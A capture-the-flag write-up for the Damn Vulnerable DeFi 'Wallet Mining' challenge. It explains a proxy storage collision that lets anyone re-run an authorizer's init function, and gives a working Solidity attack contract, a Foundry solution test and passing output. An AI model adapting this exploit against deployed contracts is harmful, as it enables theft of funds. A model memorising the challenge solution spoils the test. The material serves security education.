

# Challenge - Wallet Mining

There’s a contract that incentivizes users to deploy Safe wallets, rewarding them with 1 DVT. It integrates with an upgradeable authorization mechanism, only allowing certain deployers (a.k.a. wards) to be paid for specific deployments.

The deployer contract only works with a Safe factory and copy set during deployment. It looks like the Safe singleton factory is already deployed.

The team transferred 20 million DVT tokens to a user at 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b, where her plain 1-of-1 Safe was supposed to land. But they lost the nonce they should use for deployment.

To make matters worse, there’s been rumours of a vulnerability in the system. The team’s freaked out. Nobody knows what to do, let alone the user. She granted you access to her private key.

## Objective of CTF

You must save all funds before it’s too late!

Recover all tokens from the wallet deployer contract and send them to the corresponding ward. Also save and return all user’s funds.

In a single transaction.

## Vulnerability Analysis

### Overview Architecture

## 

### Root Cause: Proxy Storage Collision

The `WalletDeployer` contract provides a `drop` function that deploys a new Safe wallet using a nonce, as shown below:

```solidity
function drop(address aim, bytes memory wat, uint256 num) external returns (bool) {
    if (mom != address(0) && !can(msg.sender, aim)) {
        return false;
    }

    if (address(cook.createProxyWithNonce(cpy, wat, num)) != aim) {
        return false;
    }

    if (IERC20(gem).balanceOf(address(this)) >= pay) {
        IERC20(gem).transfer(msg.sender, pay);
    }
    return true;
}
```

To deploy a `Safe` wallet at the address `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`, we first need to determine the correct nonce. This can be done using `vm.computeCreate2Address` to calculate the contract address before deployment. By providing the `salt` (calculated similarly to how it's done in the SafeProxyFactory contract), the `initCodeHash`, and the `deployer` address, we can compute and compare the result with `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b` to find the correct nonce:

```solidity
address[] memory walletOwners = new address[](1);
walletOwners[0] = user;
bytes memory initializer =
    abi.encodeCall(Safe.setup, (walletOwners, 1, address(0), "", address(0), address(0), 0, payable(0)));

uint256 saltNonce;
address target;
bytes32 initCodeHash =
    keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy)))));
while (target != USER_DEPOSIT_ADDRESS) {
    saltNonce++;
    bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
    target = vm.computeCreate2Address(salt, initCodeHash, address(proxyFactory));
}
```

However, the `drop` function only permits authorized addresses to perform deployments. Thus, we need a way to grant ourselves authorization.

In the `AuthorizerUpgradeable` contract, the first storage slot is used for the `needsInit` variable:

```solidity
contract AuthorizerUpgradeable {
    uint256 public needsInit = 1;

    ...

    constructor() {
        needsInit = 0; // freeze implementation
    }

    function init(address[] memory _wards, address[] memory _aims) external {
        require(needsInit != 0, "cannot init");
        for (uint256 i = 0; i < _wards.length; i++) {
            _rely(_wards[i], _aims[i]);
        }
        needsInit = 0;
    }

    ...
}
```

Meanwhile, in the `TransparentProxy` contract, the first storage slot is occupied by the `upgrader` variable:

```solidity
contract TransparentProxy is ERC1967Proxy {
    address public upgrader = msg.sender;

    constructor(address _logic, bytes memory _data) ERC1967Proxy(_logic, _data) {
        ERC1967Utils.changeAdmin(msg.sender);
    }
}
```

There is a clear storage collision between the proxy contract and the implementation contract. As a result, we can exploit this by calling the `init` function through the proxy contract, allowing us to set ourselves as an authorized address.

Once we have authorization, we can call the `drop` function using the `salt` value we previously calculated to deploy the Safe wallet at 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b. Since the user owns the deployed wallet, and we have access to the user’s private key, we can move the 20 million DVT tokens from the `Safe` wallet to the user’s address by calling the `execTransaction` function.

Note: Before executing the `execTransaction` function, the transaction hash must be signed with the user’s private key. However, since the Safe wallet is not yet deployed, we cannot use the `getTransactionHash()` function to get the transaction hash. Instead, we must calculate the transaction hash manually.

### Attack steps:

1. Determine the lost nonce required to deploy the `Safe` wallet at `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`.
2. Manually calculate the transaction hash, as the Safe wallet is not yet deployed for now.
3. Sign the transaction hash using the user's private key. The resulting signature will be used in step 6.
4. Call the `drop` function in the `WalletDeployer` contract to deploy a `Safe` wallet at `0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b`.
5. Transfer the reward token to `ward` address
6. Use the signature to send a transaction, rescuing the 20 million DVT tokens to the user address.

## PoC test case

### Attack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Safe, Enum} from "@safe-global/safe-smart-account/contracts/Safe.sol";

import {AuthorizerUpgradeable} from "./AuthorizerUpgradeable.sol";
import {WalletDeployer} from "./WalletDeployer.sol";

contract AttackWalletDeployer {
    address private constant USER = 0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D;
    address private constant USER_DEPOSIT_ADDRESS = 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b;
    address private constant WARD = 0x89305C9663472C41251FBC479bCd3DE7553A7EB1;
    uint256 private constant INITIAL_WALLET_DEPLOYER_TOKEN_BALANCE = 1 ether;
    uint256 private constant DEPOSIT_TOKEN_AMOUNT = 20_000_000e18;

    constructor(
        address _token,
        address _authorizer,
        address _walletDeployer,
        bytes memory initializer,
        uint256 nonce,
        bytes memory signature
    ) {
        address[] memory wards = new address[](1);
        address[] memory aims = new address[](1);

        wards[0] = address(this);
        aims[0] = USER_DEPOSIT_ADDRESS;

        // set this contract as the authorized address.
        AuthorizerUpgradeable(_authorizer).init(wards, aims);

        // use the nonce to deploy a Safe wallet at the USER_DEPOSIT_ADDRESS address
        WalletDeployer(_walletDeployer).drop(USER_DEPOSIT_ADDRESS, initializer, nonce);

        // transfer the rewards to the ward address
        IERC20(_token).transfer(WARD, INITIAL_WALLET_DEPLOYER_TOKEN_BALANCE);

        // recover the tokens from the Safe wallet to the user's address
        Safe(payable(USER_DEPOSIT_ADDRESS)).execTransaction(
            _token,
            0,
            abi.encodeWithSignature("transfer(address,uint256)", USER, DEPOSIT_TOKEN_AMOUNT),
            Enum.Operation.Call,
            0,
            0,
            0,
            0x0000000000000000000000000000000000000000,
            payable(0),
            signature
        );
    }
}
```

### Test contract

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {SafeProxyFactory} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxyFactory.sol";
import {SafeProxy} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxy.sol";
import {Safe, OwnerManager, Enum} from "@safe-global/safe-smart-account/contracts/Safe.sol";
import {Create2} from "@openzeppelin/contracts/utils/Create2.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {WalletDeployer} from "../../src/wallet-mining/WalletDeployer.sol";
import {
    AuthorizerFactory, AuthorizerUpgradeable, TransparentProxy
} from "../../src/wallet-mining/AuthorizerFactory.sol";
import {AttackWalletDeployer} from "src/wallet-mining/AttackWalletDeployer.sol";

contract WalletMiningChallenge is Test {
    address deployer = makeAddr("deployer");
    address upgrader = makeAddr("upgrader");
    address ward = makeAddr("ward");
    address player = makeAddr("player");
    address user;
    uint256 userPrivateKey;

    address constant USER_DEPOSIT_ADDRESS = 0x8be6a88D3871f793aD5D5e24eF39e1bf5be31d2b;
    uint256 constant DEPOSIT_TOKEN_AMOUNT = 20_000_000e18;

    address constant SAFE_SINGLETON_FACTORY_ADDRESS = 0x914d7Fec6aaC8cd542e72Bca78B30650d45643d7;
    bytes constant SAFE_SINGLETON_FACTORY_CODE =
        hex"7fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe03601600081602082378035828234f58015156039578182fd5b8082525050506014600cf3";

    DamnValuableToken token;
    AuthorizerUpgradeable authorizer;
    WalletDeployer walletDeployer;
    SafeProxyFactory proxyFactory;
    Safe singletonCopy;

    uint256 initialWalletDeployerTokenBalance;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        // Player should be able to use the user's private key
        (user, userPrivateKey) = makeAddrAndKey("user");

        startHoax(deployer);

        // Deploy token
        token = new DamnValuableToken();

        // Deploy authorizer with a ward authorized to deploy at DEPOSIT_ADDRESS
        address[] memory wards = new address[](1);
        wards[0] = ward;
        address[] memory aims = new address[](1);
        aims[0] = USER_DEPOSIT_ADDRESS;
        AuthorizerFactory authorizerFactory = new AuthorizerFactory();
        authorizer = AuthorizerUpgradeable(authorizerFactory.deployWithProxy(wards, aims, upgrader));

        // Send big bag full of DVT tokens to the deposit address
        token.transfer(USER_DEPOSIT_ADDRESS, DEPOSIT_TOKEN_AMOUNT);

        // Include Safe singleton factory in this chain
        vm.etch(SAFE_SINGLETON_FACTORY_ADDRESS, SAFE_SINGLETON_FACTORY_CODE);

        // Call singleton factory to deploy copy and factory contracts
        (bool success, bytes memory returndata) =
            address(SAFE_SINGLETON_FACTORY_ADDRESS).call(bytes.concat(bytes32(""), type(Safe).creationCode));
        singletonCopy = Safe(payable(address(uint160(bytes20(returndata)))));

        (success, returndata) =
            address(SAFE_SINGLETON_FACTORY_ADDRESS).call(bytes.concat(bytes32(""), type(SafeProxyFactory).creationCode));
        proxyFactory = SafeProxyFactory(address(uint160(bytes20(returndata))));

        // Deploy wallet deployer
        walletDeployer = new WalletDeployer(address(token), address(proxyFactory), address(singletonCopy));

        // Set authorizer in wallet deployer
        walletDeployer.rule(address(authorizer));

        // Fund wallet deployer with tokens
        initialWalletDeployerTokenBalance = walletDeployer.pay();
        token.transfer(address(walletDeployer), initialWalletDeployerTokenBalance);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public view {
        // Check initialization of authorizer
        assertNotEq(address(authorizer), address(0));
        assertEq(TransparentProxy(payable(address(authorizer))).upgrader(), upgrader);
        assertTrue(authorizer.can(ward, USER_DEPOSIT_ADDRESS));
        assertFalse(authorizer.can(player, USER_DEPOSIT_ADDRESS));

        // Check initialization of wallet deployer
        assertEq(walletDeployer.chief(), deployer);
        assertEq(walletDeployer.gem(), address(token));
        assertEq(walletDeployer.mom(), address(authorizer));

        // Ensure DEPOSIT_ADDRESS starts empty
        assertEq(USER_DEPOSIT_ADDRESS.code, hex"");

        // Factory and copy are deployed correctly
        assertEq(address(walletDeployer.cook()).code, type(SafeProxyFactory).runtimeCode, "bad cook code");
        assertEq(walletDeployer.cpy().code, type(Safe).runtimeCode, "no copy code");

        // Ensure initial token balances are set correctly
        assertEq(token.balanceOf(USER_DEPOSIT_ADDRESS), DEPOSIT_TOKEN_AMOUNT);
        assertGt(initialWalletDeployerTokenBalance, 0);
        assertEq(token.balanceOf(address(walletDeployer)), initialWalletDeployerTokenBalance);
        assertEq(token.balanceOf(player), 0);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_walletMining() public checkSolvedByPlayer {
        // Find the lost nonce for deploying the safe wallet at USER_DEPOSIT_ADDRESS
        address[] memory walletOwners = new address[](1);
        walletOwners[0] = user;
        bytes memory initializer =
            abi.encodeCall(Safe.setup, (walletOwners, 1, address(0), "", address(0), address(0), 0, payable(0)));

        uint256 saltNonce;
        address target;
        bytes32 initCodeHash =
            keccak256(abi.encodePacked(type(SafeProxy).creationCode, uint256(uint160(address(singletonCopy)))));
        while (target != USER_DEPOSIT_ADDRESS) {
            saltNonce++;
            bytes32 salt = keccak256(abi.encodePacked(keccak256(initializer), saltNonce));
            target = vm.computeCreate2Address(salt, initCodeHash, address(proxyFactory));
        }

        // calculate transaction hash
        bytes memory data = abi.encodeWithSignature("transfer(address,uint256)", user, DEPOSIT_TOKEN_AMOUNT);
        bytes32 domainSeparator = keccak256(
            abi.encode(
                0x47e79534a245952e8b16893a336b85a3d9ea9fa8c573f3d803afb92a79469218, //DOMAIN_SEPARATOR_TYPEHASH
                singletonCopy.getChainId(),
                USER_DEPOSIT_ADDRESS
            )
        );
        bytes32 safeTxHash = keccak256(
            abi.encode(
                0xbb8310d486368db6bd6f849402fdd73ad53d316b5a4b2644ad6efe0f941286d8, // SAFE_TX_TYPEHASH
                token, // to
                0, // value
                keccak256(data), // data
                Enum.Operation.Call, // operation
                0, // safeTxGas
                0, // baseGas
                0, // gasPrice
                0, // gasToken
                payable(0), // refundReceiver
                0 // _nonce
            )
        );
        bytes32 txHash = keccak256(abi.encodePacked(bytes1(0x19), bytes1(0x01), domainSeparator, safeTxHash));

        // sign the transaction hash with the user's private key
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, txHash);
        bytes memory signature = abi.encodePacked(r, s, v);

        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the wallet deployer contract", token.balanceOf(address(walletDeployer)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the user's safe wallet", token.balanceOf(address(USER_DEPOSIT_ADDRESS)), token.decimals()
        );
        emit log_named_decimal_uint("token balance in the ward", token.balanceOf(address(ward)), token.decimals());
        emit log_named_decimal_uint("token balance in the user", token.balanceOf(address(user)), token.decimals());

        // deploy malicious contract to exploit the vulnerability
        new AttackWalletDeployer(
            address(token), address(authorizer), address(walletDeployer), initializer, saltNonce, signature
        );

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the wallet deployer contract", token.balanceOf(address(walletDeployer)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the user's safe wallet", token.balanceOf(address(USER_DEPOSIT_ADDRESS)), token.decimals()
        );
        emit log_named_decimal_uint("token balance in the ward", token.balanceOf(address(ward)), token.decimals());
        emit log_named_decimal_uint("token balance in the user", token.balanceOf(address(user)), token.decimals());
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
        // Factory account must have code
        assertNotEq(address(walletDeployer.cook()).code.length, 0, "No code at factory address");

        // Safe copy account must have code
        assertNotEq(walletDeployer.cpy().code.length, 0, "No code at copy address");

        // Deposit account must have code
        assertNotEq(USER_DEPOSIT_ADDRESS.code.length, 0, "No code at user's deposit address");

        // The deposit address and the wallet deployer must not hold tokens
        assertEq(token.balanceOf(USER_DEPOSIT_ADDRESS), 0, "User's deposit address still has tokens");
        assertEq(token.balanceOf(address(walletDeployer)), 0, "Wallet deployer contract still has tokens");

        // User account didn't execute any transactions
        assertEq(vm.getNonce(user), 0, "User executed a tx");

        // Player must have executed a single transaction
        assertEq(vm.getNonce(player), 1, "Player executed more than one tx");

        // Player recovered all tokens for the user
        assertEq(token.balanceOf(user), DEPOSIT_TOKEN_AMOUNT, "Not enough tokens in user's account");

        // Player sent payment to ward
        assertEq(token.balanceOf(ward), initialWalletDeployerTokenBalance, "Not enough tokens in ward's account");
    }
}
```

### Test Result

```
Ran 2 tests for test/wallet-mining/WalletMining.t.sol:WalletMiningChallenge
[PASS] test_assertInitialState() (gas: 148151)
[PASS] test_walletMining() (gas: 475433)
Logs:
  -------------------------- Before exploit --------------------------
  token balance in the wallet deployer contract: 1.000000000000000000
  token balance in the user's safe wallet: 20000000.000000000000000000
  token balance in the ward: 0.000000000000000000
  token balance in the user: 0.000000000000000000
  -------------------------- After exploit --------------------------
  token balance in the wallet deployer contract: 0.000000000000000000
  token balance in the user's safe wallet: 0.000000000000000000
  token balance in the ward: 1.000000000000000000
  token balance in the user: 20000000.000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 15.85ms (6.24ms CPU time)

Ran 1 test suite in 235.28ms (15.85ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
